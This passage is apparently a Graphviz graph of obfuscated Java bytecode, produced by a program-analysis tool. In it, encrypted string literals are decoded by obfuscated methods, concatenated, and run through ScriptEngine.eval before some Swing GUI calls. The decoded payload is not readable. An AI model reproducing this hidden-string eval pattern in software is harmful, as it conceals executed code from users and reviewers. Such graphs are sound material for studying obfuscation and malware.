u7e84\u0977\u45e7\uf733\uee9d\u052c\ud339\ub6b0\uf545\u2c07\u08ba\u9dff\u3c42\u4cd7\u3b72\u16ac\u2fe8\u021d\ue1c9\ufa5e\u43aa\uf057\u7900\u6477\ue942\u4568\u07f0\ubb24\u0c5f\u5dcf\ua473\ue20d\uccf1\uf420\ua14d\u46c5\u83d2\u5af0\uab6f\uaa8d\u9f09\u91ea\u8677\ue690\u1dd1\ud1b1\ub29d\ue986\u8fa2\ucb52\u521f\uc401\u3bd1\u9c89\u533a\u4f62\uc21a\u00e0\u24e7\u2036\ua784\ue8f8\u1790\uce86\ufa73\u24e0\u3f20\ue5db\uc87e\u1459\ucf38\u082e\uc92e\u0bd5\ua374\u840f\u365e\u1af4\u454a\u1b2e\u298a\uf6c5\u222e\uc880\ue1da\u7bbe\u04c3\u99c4\ub866\u7fcb\ua5bb\ud2bc\u0744\ue2d0\u85b0\ub359\u69d9\u403a\ufa7d\u8c99\uf67f\u1550\u4e56\uc319\u2179\u47cc\u1984\u73a7\u30a0\u8257\uca3d\ue484\u539e\u0611\ucd79\ufdf8\u08d3\u0b8c\u9c7d\u798b\u1e92\u237e\u2f30\u3f8d\u2d0f\u3c8c\u0b7c\u7e8b\ua726\u2dec\u1cf0\uf4e7\u0d63\u893f\u6c06\ubfb1\u82cc\u4084\u0ac1\u8dfc\u48a9\ua6d8\udd34\u9fc8\u98e5\u5981\u7a87\u54aa\u6404\uc095\ud8ef\u45eb\uff6a\u75b3\ub84e\u83d9\u5f06\uaa99\u7dcc\u5fd2\u4841\u333e\u2f23\u3e00\u7519\uc197\u1377\u8f5d\u90b0\u3dec\u5db0\u7a15\u7c7e\u8bce\uccab\u5085\u9d42\uf4a5\u3d18\u3097\u9f6d\u59a4\ueb53\u9b1e\u54da\ub89a\ucbd4\u56f7\ub5b3\u1337\u057a\u1617\uda0c\u4bd4\ude06\ub09a\u0424\u8a1f\u7207\u7fc2\u97f9\u9b1c\ufa2f\u8c4f\u2151\u1931\u13ec\ud498\u6dab\u2fbc\ua3c9\ud5b6\ue0a8\u88fa\ub2d5\u9772\u0e86\u1d48\u6b09\u98a7\u2220\ud6dc\u6d5d\ubaf9\u8b10\ud876\u1857\u6040\u251e\uc84b\uaedd\uec14\u6509\ud793\ue95f\u90c0\u25aa\u0c14\u4b34\u81b8\uff32\u6cf9\ua5b5\u8ddd\u899c\u6e5b\u038c\uc82d\u3409\ua1f9\uab57\u3dd2\ue0e7\ua049\u4508\ue3b7\u9931\u8b80\u4644\ub34a\ubd19\u15a7\uec53\u6638\u4862\u097f\u1e0d\u2359\u5170\u1d94\u54c8\udca7\uee89\u7c63\ud9bb\udbd2\ub995\u1549\u4033\u6375\u20ce\u66f3\u5456\u7673\u72df\uccbe\ud745\u960e\u24ad\uffbb\u34b3\u2954\ucb4b\ue0cd\u89b7\ufe6a\u1af5\udb12\uf7eb\u7ebf\ude2f\u339b\ub78b\uef5e\ue479\ue9fc\u1744\uf8e5\u9402\u68c5\u213a\u4573\ubb33\ud857\u15b0\ufeb0\ud00f\u52e2\ufc95\u31a4\uca42\u7385\u504f\u8244\u5358\u7f9d\u6ae3\uc3aa\ue70c\uce57\u2120\u9938\u90dc\ub270\ue86d\u4ff9\u9e0a\udce7\uc346\ud428\u4904\ub203\u91b6\u977f\uc2dc\u2e5c\uf290\uccc3\u2f3a\u6e56\u5bd5\u02b2\u277a\u4dbd\u421a\ud033\u52a2\u6106\u7810\uf3ea\uf921\u8a03\uc5e2\u9626\ua58c\u6906\uc64f\u261f\ufad3\u09ab\uecd2\u54b7\u1d2a\ua717\ubfa7\u5c10\u3756\ue920\u5322\u056f\u328d\u1ba4\ua147\uedc8\udcb3\ubeec\u4548\u88c9\ue50d\uf0c1\uc4bc\uf28b\ud643\uac8d\u6dae\uf95f\u19f2\u2494\u41c7\ue480\u0b00\u477c\ubdb6\u1b0a\ue7ce\u478f\u836e\u4a63\u1ba8\ufd24\u759a\ucaa6\ub211\uee63\uba2b\ud756\ua5ee\u8409\u2ff5\u9e72\u9d4d\u99b6\uf215\u4b30\u5e2c\ua871\ue7f8\udeda\u7f54\u7af3\u1ed2\u65c0\ua627\u59ac\u1c40\u69cc\ueec2\u9a77\ufb4a\u0e88\uf252\u501b\u27ad\u2567\u0927\u2db2\u3679\u80f4\u1ebb\u98ba\u445b\u0ebb\ued1b\u9893\u4979\u94d5\uc2e4\uaa87\uf89c\u797f\u7edd\u3700\ua8c6\u1d6d\ubf1c\u5b13\uca16\uaa90\u5d0b\u8d81\u8378\uafb8\ufc3b\u0f7f\u741c\u9577\u6b7c\u7aae\uf913\ub811\u1129\u0eb9\u6685\uc228\u1fa3\u8c57\u11a6\u7dc7\u6604\ua13e\u7267\u4dbd\u1b49\u392f\u3938\u9f0a\u11fe\u20d4\u3d9b\u3b7c\uf6ac\ue680\u00e6\ub734\u1ad4\u409b\ud2ea\u0ba2\u03cc\uf105\u7426\u6aea\ud638\u6ccc\ua54e\u5c92\u27a7\u9729\u81fb\u704d\u25d3\u4335\u91c8\u50f3\u90f0\uc107\u3643\u3ad3\uc34b\uf0e2\u2bcc\u1d76\u7045\ue36b\u3e7c\ueab9\u0b41\u718f\ub3bc\u3970\ub352\ud13a\u7199\ucc7f\ua517\u9e3d\u2aa4\u6eb7\u69aa\"";
    "push \"\ub13c\u48a9\u17cb\u4059\u5253\udc51\u1655\u6dbc\u28b0\u2bf8\ue260\u5914\ud3be\u6e93\ufb0e\u01c1\uff8a\u5c05\ud218\u7f9f\u5a3a\uaa41\u1c60\u7d74\u86aa\u866b\ua2e9\u2460\u1225\u263f\u5334\uefdc\u9f47\u4881\udd6c\u4291\u7d6c\u936c\uefe7\uda11\u35f3\u010f\u8b0b\uaff8\u2dfb\u0364\ue26e\u21c8\u5e13\u2639\u1241\uea75\u3c70\uf8bb\ua06c\u85df\u7d91\uabf4\uda3a\uc4b8\ueec0\ua51f\u343d\ue816\u9a1c\u537b\u5d48\uae0c\uafd0\u21cd\u2067\u9592\uab6f\u1299\ue6b3\u3cba\u8750\u4345\u8dcf\u67d2\ua40e\uc287\u8eb0\u8b05\ucebb\uc3bf\u6dde\u381c\u69e2\u1a81\u036f\u6a8c\u4885\ue1a8\ue2d4\u6e9d\u81e9\ud5fd\ued3d\u290e\u7551\u7d9c\u1f20\u58e1\u4d41\u3e53\u9f62\ued97\u10b6\uef03\ua784\u2759\u43f0\u5391\u32db\u3958\u4c24\uf886\u8f83\ub36a\u20b1\u8504\u2699\u7e84\u0977\u45e7\uf733\uee9d\u052c\ud339\ub6b0\uf545\u2c07\u08ba\u9dff\u3c42\u4cd7\u3b72\u16ac\u2fe8\u021d\ue1c9\ufa5e\u43aa\uf057\u7900\u6477\ue942\u4568\u07f0\ubb24\u0c5f\u5dcf\ua473\ue20d\uccf1\uf420\ua14d\u46c5\u83d2\u5af0\uab6f\uaa8d\u9f09\u91ea\u8677\ue690\u1dd1\ud1b1\ub29d\ue986\u8fa2\ucb52\u521f\uc401\u3bd1\u9c89\u533a\u4f62\uc21a\u00e0\u24e7\u2036\ua784\ue8f8\u1790\uce86\ufa73\u24e0\u3f20\ue5db\uc87e\u1459\ucf38\u082e\uc92e\u0bd5\ua374\u840f\u365e\u1af4\u454a\u1b2e\u298a\uf6c5\u222e\uc880\ue1da\u7bbe\u04c3\u99c4\ub866\u7fcb\ua5bb\ud2bc\u0744\ue2d0\u85b0\ub359\u69d9\u403a\ufa7d\u8c99\uf67f\u1550\u4e56\uc319\u2179\u47cc\u1984\u73a7\u30a0\u8257\uca3d\ue484\u539e\u0611\ucd79\ufdf8\u08d3\u0b8c\u9c7d\u798b\u1e92\u237e\u2f30\u3f8d\u2d0f\u3c8c\u0b7c\u7e8b\ua726\u2dec\u1cf0\uf4e7\u0d63\u893f\u6c06\ubfb1\u82cc\u4084\u0ac1\u8dfc\u48a9\ua6d8\udd34\u9fc8\u98e5\u5981\u7a87\u54aa\u6404\uc095\ud8ef\u45eb\uff6a\u75b3\ub84e\u83d9\u5f06\uaa99\u7dcc\u5fd2\u4841\u333e\u2f23\u3e00\u7519\uc197\u1377\u8f5d\u90b0\u3dec\u5db0\u7a15\u7c7e\u8bce\uccab\u5085\u9d42\uf4a5\u3d18\u3097\u9f6d\u59a4\ueb53\u9b1e\u54da\ub89a\ucbd4\u56f7\ub5b3\u1337\u057a\u1617\uda0c\u4bd4\ude06\ub09a\u0424\u8a1f\u7207\u7fc2\u97f9\u9b1c\ufa2f\u8c4f\u2151\u1931\u13ec\ud498\u6dab\u2fbc\ua3c9\ud5b6\ue0a8\u88fa\ub2d5\u9772\u0e86\u1d48\u6b09\u98a7\u2220\ud6dc\u6d5d\ubaf9\u8b10\ud876\u1857\u6040\u251e\uc84b\uaedd\uec14\u6509\ud793\ue95f\u90c0\u25aa\u0c14\u4b34\u81b8\uff32\u6cf9\ua5b5\u8ddd\u899c\u6e5b\u038c\uc82d\u3409\ua1f9\uab57\u3dd2\ue0e7\ua049\u4508\ue3b7\u9931\u8b80\u4644\ub34a\ubd19\u15a7\uec53\u6638\u4862\u097f\u1e0d\u2359\u5170\u1d94\u54c8\udca7\uee89\u7c63\ud9bb\udbd2\ub995\u1549\u4033\u6375\u20ce\u66f3\u5456\u7673\u72df\uccbe\ud745\u960e\u24ad\uffbb\u34b3\u2954\ucb4b\ue0cd\u89b7\ufe6a\u1af5\udb12\uf7eb\u7ebf\ude2f\u339b\ub78b\uef5e\ue479\ue9fc\u1744\uf8e5\u9402\u68c5\u213a\u4573\ubb33\ud857\u15b0\ufeb0\ud00f\u52e2\ufc95\u31a4\uca42\u7385\u504f\u8244\u5358\u7f9d\u6ae3\uc3aa\ue70c\uce57\u2120\u9938\u90dc\ub270\ue86d\u4ff9\u9e0a\udce7\uc346\ud428\u4904\ub203\u91b6\u977f\uc2dc\u2e5c\uf290\uccc3\u2f3a\u6e56\u5bd5\u02b2\u277a\u4dbd\u421a\ud033\u52a2\u6106\u7810\uf3ea\uf921\u8a03\uc5e2\u9626\ua58c\u6906\uc64f\u261f\ufad3\u09ab\uecd2\u54b7\u1d2a\ua717\ubfa7\u5c10\u3756\ue920\u5322\u056f\u328d\u1ba4\ua147\uedc8\udcb3\ubeec\u4548\u88c9\ue50d\uf0c1\uc4bc\uf28b\ud643\uac8d\u6dae\uf95f\u19f2\u2494\u41c7\ue480\u0b00\u477c\ubdb6\u1b0a\ue7ce\u478f\u836e\u4a63\u1ba8\ufd24\u759a\ucaa6\ub211\uee63\uba2b\ud756\ua5ee\u8409\u2ff5\u9e72\u9d4d\u99b6\uf215\u4b30\u5e2c\ua871\ue7f8\udeda\u7f54\u7af3\u1ed2\u65c0\ua627\u59ac\u1c40\u69cc\ueec2\u9a77\ufb4a\u0e88\uf252\u501b\u27ad\u2567\u0927\u2db2\u3679\u80f4\u1ebb\u98ba\u445b\u0ebb\ued1b\u9893\u4979\u94d5\uc2e4\uaa87\uf89c\u797f\u7edd\u3700\ua8c6\u1d6d\ubf1c\u5b13\uca16\uaa90\u5d0b\u8d81\u8378\uafb8\ufc3b\u0f7f\u741c\u9577\u6b7c\u7aae\uf913\ub811\u1129\u0eb9\u6685\uc228\u1fa3\u8c57\u11a6\u7dc7\u6604\ua13e\u7267\u4dbd\u1b49\u392f\u3938\u9f0a\u11fe\u20d4\u3d9b\u3b7c\uf6ac\ue680\u00e6\ub734\u1ad4\u409b\ud2ea\u0ba2\u03cc\uf105\u7426\u6aea\ud638\u6ccc\ua54e\u5c92\u27a7\u9729\u81fb\u704d\u25d3\u4335\u91c8\u50f3\u90f0\uc107\u3643\u3ad3\uc34b\uf0e2\u2bcc\u1d76\u7045\ue36b\u3e7c\ueab9\u0b41\u718f\ub3bc\u3970\ub352\ud13a\u7199\ucc7f\ua517\u9e3d\u2aa4\u6eb7\u69aa\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub16d\u48e9\u178b\u4005\u5206\udc15\u164b\u6def\u28e2\u2be1\ue229\u590d\ud3b4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub16d\u48e9\u178b\u4005\u5206\udc15\u164b\u6def\u28e2\u2be1\ue229\u590d\ud3b4\"";
    "push \"\ub16d\u48e9\u178b\u4005\u5206\udc15\u164b\u6def\u28e2\u2be1\ue229\u590d\ud3b4\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub17e\u48fc\u178f\u401c\u5211\udc0f\u1645\u6ddf\u28f4\u2bbb\ue238\u594a\ud3e8\u6e8d\ufb59\u0183\uffd5\u5c58\ud26b\u7fc7\u5a6b\uaa03\u1c13\u7d2b\u86fe\u863f\ua2f0\u2469\u1222\u2624\u5349\uef8c\u9f03\u48d9\udd72\u42d3\u7d33\u9329\uefb9\uda45\u35eb\u0173\u8b5b\uafbd\u2da3\u037b\ue22d\u2199\u5e4d\u266d\u121e\uea28\u3c68\uf8a2\ua076\u85dd\u7d94\uabec\uda22\uc4b3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub17e\u48fc\u178f\u401c\u5211\udc0f\u1645\u6ddf\u28f4\u2bbb\ue238\u594a\ud3e8\u6e8d\ufb59\u0183\uffd5\u5c58\ud26b\u7fc7\u5a6b\uaa03\u1c13\u7d2b\u86fe\u863f\ua2f0\u2469\u1222\u2624\u5349\uef8c\u9f03\u48d9\udd72\u42d3\u7d33\u9329\uefb9\uda45\u35eb\u0173\u8b5b\uafbd\u2da3\u037b\ue22d\u2199\u5e4d\u266d\u121e\uea28\u3c68\uf8a2\ua076\u85dd\u7d94\uabec\uda22\uc4b3\"";
    "push \"\ub17e\u48fc\u178f\u401c\u5211\udc0f\u1645\u6ddf\u28f4\u2bbb\ue238\u594a\ud3e8\u6e8d\ufb59\u0183\uffd5\u5c58\ud26b\u7fc7\u5a6b\uaa03\u1c13\u7d2b\u86fe\u863f\ua2f0\u2469\u1222\u2624\u5349\uef8c\u9f03\u48d9\udd72\u42d3\u7d33\u9329\uefb9\uda45\u35eb\u0173\u8b5b\uafbd\u2da3\u037b\ue22d\u2199\u5e4d\u266d\u121e\uea28\u3c68\uf8a2\ua076\u85dd\u7d94\uabec\uda22\uc4b3\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub171\u48a2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub171\u48a2\"";
    "push \"\ub171\u48a2\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub169\u48a4\u1795\u400c\u5214\udc41\u1620\u6dfe\u28f2\u2ba6\ue223\u590c\ud3a6\u6e98\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub169\u48a4\u1795\u400c\u5214\udc41\u1620\u6dfe\u28f2\u2ba6\ue223\u590c\ud3a6\u6e98\"";
    "push \"\ub169\u48a4\u1795\u400c\u5214\udc41\u1620\u6dfe\u28f2\u2ba6\ue223\u590c\ud3a6\u6e98\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub169\u48b7\u1796\u400c\u5210\udc12\u1604\u6deb\u28e5\u2bf4\ue225\u594c\ud3e6\u6ed0\ufb04\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub169\u48b7\u1796\u400c\u5210\udc12\u1604\u6deb\u28e5\u2bf4\ue225\u594c\ud3e6\u6ed0\ufb04\"";
    "push \"\ub169\u48b7\u1796\u400c\u5210\udc12\u1604\u6deb\u28e5\u2bf4\ue225\u594c\ud3e6\u6ed0\ufb04\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\ub169\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\ub169\"";
    "push \"\ub169\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r2";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r2"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <a: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\ub142\u48f6\u178f\u4003\u5210\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\ub142\u48f6\u178f\u4003\u5210\"";
    "push \"\ub142\u48f6\u178f\u4003\u5210\""->"staticinvoke <p: java.lang.String 騘(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "staticinvoke <p: java.lang.String 騘(java.lang.String)>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
}
